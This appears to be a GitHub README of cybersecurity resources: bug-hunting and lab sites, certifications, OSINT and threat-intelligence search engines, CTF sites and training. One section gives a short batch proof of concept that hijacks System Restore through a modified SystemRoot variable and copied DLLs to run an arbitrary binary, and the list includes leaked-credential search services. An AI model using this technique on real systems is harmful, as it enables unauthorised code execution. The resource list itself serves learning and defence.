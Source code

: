 # RandomCyberStuff

### Bug Hunting 

## Bug Hunting sites

 - Pentesterlab: https://pentesterlab.com/
 - hackthebox: https://www.hackthebox.com/

 ### Labs 
 - Portswigger Web Academy: https://portswigger.net/web-security
 - Tryhackme: https://tryhackme.com/
 - Pentesterlab: https://pentesterlab.com/
 - hackthebox: https://www.hackthebox.com/
 
 ## Bug reports
 
- Hacker One: https://Hackerone.com/hacktivity
- Bug Croud: https://bugcroud.com/crowdstream
- Pen tester Land: https://pentester.land

 ## Website resource
 
 - Any.run: https://any.run/
 allows anyone to register an account and to interactively analyze a particular file in real time

## Certs

### TCM Security
- PNPT Practical Network Penetration Tester Certification https://certifications.tcm-sec.com/pnpt/
- PJPT Practical Junior Penetration Tester https://certifications.tcm-sec.com/pjpt/

### eCPPT - eLearnSecurity Certified Professional Penetration Tester
- [eLearnSecurity Certified Professional Penetration Tester](https://elearnsecurity.com/product/ecpptv2-certification/)

### CEH Certified Ethical Hacker
- https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/

### Offensive Security certification
- OSCP
- OSCE
- OSWE
- OSEP

## IE running code
IE navigating to `shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}` you can spawn System restore. If you modify the `SystemRoot` environment variable and copy over DLLs you run them.


POC: 
mkdir %temp%\System32
FOR /R C:\Windows\System32\ %F IN (*.dll) DO COPY "%F" %temp%\System32\ /Y >NUL
set a=C:\Windows\System32\calc.exe
copy %a% %temp%\System32\rstrui.exe /Y > NUL
set SystemRoot=%temp%
start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}

## Search Resources 

1. DeHashed—View leaked credentials.
2. SecurityTrails—Extensive DNS data.
3. DorkSearch—Really fast Google dorking.
4. ExploitDB—Archive of various exploits.
5. ZoomEye—Gather information about targets.
6. Pulsedive—Search for threat intelligence.
7. GrayHatWarfare—Search public S3 buckets.
8. PolySwarm—Scan files and URLs for threats.
9. Fofa—Search for various threat intelligence.
10. LeakIX—Search publicly indexed information.
11. DNSDumpster—Search for DNS records quickly.
12. FullHunt—Search and discovery attack surfaces.
13. AlienVault—Extensive threat intelligence feed.
14. ONYPHE—Collects cyber-threat intelligence data.
15. Grep App—Search across a half million git repos.
16. URL Scan—Free service to scan and analyse websites.
17. Vulners—Search vulnerabilities in a large database.
18. WayBackMachine—View content from deleted websites.
19. Shodan—Search for devices connected to the internet.
20. Netlas—Search and monitor internet connected assets.
21. CRT sh—Search for certs that have been logged by CT.
22. Wigle—Database of wireless networks, with statistics.
23. PublicWWW—Marketing, and affiliate marketing research.
24. Binary Edge—Scans the internet for threat intelligence.
25. GreyNoise—Search for devices connected to the internet.
26. Hunter—Search for email addresses belonging to a website.
27. Censys—Assessing attack surface for internet connected devices.
28. IntelligenceX—Search Tor, I2P, data leaks, domains, and emails.
29. Packet Storm Security—Browse latest vulnerabilities and exploits.
30. SearchCode—Search 75 billion lines of code from 40 million projects.
 
## CTF Sites 
- Pico CTF: https://play.picoctf.org/

- CTF learn: https://ctflearn.com/

## Software / Tools

- SNORT
- OpenDNS
- EnCase
- SIFT

## Training 

- OPSWAT academy https://opswatacademy.com/page/course-list

